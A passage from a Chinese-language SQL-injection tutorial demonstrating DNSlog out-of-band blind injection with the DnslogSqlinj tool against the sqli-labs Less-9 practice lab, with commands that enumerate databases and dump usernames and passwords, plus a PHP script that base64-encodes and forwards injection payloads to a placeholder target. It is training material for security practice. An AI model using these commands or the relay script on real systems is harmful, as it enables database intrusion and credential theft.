 ![1626268850_60eee4b26a7955fc144e7.png!small?1626268850513](https://image.3001.net/images/20210714/1626268850_60eee4b26a7955fc144e7.png!small?1626268850513)

![1626268862_60eee4be97d15b52c7aff.png!small?1626268862589](https://image.3001.net/images/20210714/1626268862_60eee4be97d15b52c7aff.png!small?1626268862589)

查询到的是hex编码的结果

![1626268884_60eee4d43a1d2a403355a.png!small?1626268884241](https://image.3001.net/images/20210714/1626268884_60eee4d43a1d2a403355a.png!small?1626268884241)

## py-Dnslogsqlinj工具使用——dnslog 注入演示脚本演示(实际案例)

项目地址：https://github.com/ADOOO/DnslogSqlinj  DNSlog注入工具

需要使用python27环境

首先需要修改配置文件:

![](https://gitee.com/YatJay/image/raw/master/img/202202152336565.png)

对于Less-9进行测试(本地地址为：http://localhost/pentest/sqlilabs/Less-9/?id=1)，使用语句如下：

获取数据库名:

`python dnslogSql.py -u "http://localhost/pentest/sqlilabs/Less-9/?id=1' and ({})--+" --dbs`

获取数据库security下的表名:

`python dnslogSql.py -u "http://localhost/pentest/sqlilabs/Less-9/?id=1' and ({})--+" -D security --tables`

获取users表的列名:

`python dnslogSql.py -u "http://localhost/pentest/sqlilabs/Less-9/?id=1' and ({})--+" -D security -T users --columns`

获取uses表中的数据:

`python dnslogSql.py -u "http://localhost/pentest/sqlilabs/Less-9/?id=1' and ({})--+" -D security -T users -C username,password --dump`

或直接使用`python dnslogSql.py -u "http://localhost/pentest/sqlilabs/Less-9/?id=1' and ({})--+"`进行测试

![](https://gitee.com/YatJay/image/raw/master/img/202202152346613.png)

# 涉及资源

- http://ceye.io/  知道创宇的DNS平台

- https://github.com/ADOOO/DnslogSqlinj  DNSlog注入工具

- https://www.bbsmax.com/A/A2dmVVQBze/   Sqlmap注入Base64编码的注入点：

- https://www.freebuf.com/column/184587.html

- https://www.cnblogs.com/renhaoblog/p/12912452.html

- https://www.pianshen.com/article/9561325277/

- https://github.com/bugscanteam/dnslog/(自己搭建dnslog服务器)

- PHP脚本
```php
<?php
$url='http://xxxx/job_bystjb/yjs_byszjs.asp?id=';  //声明url
$payload=base64_encode($_GET['x']);
echo  $payload;
$urls=$url.$payload;
file_get_contents($urls);
echo$urls;
?>
```

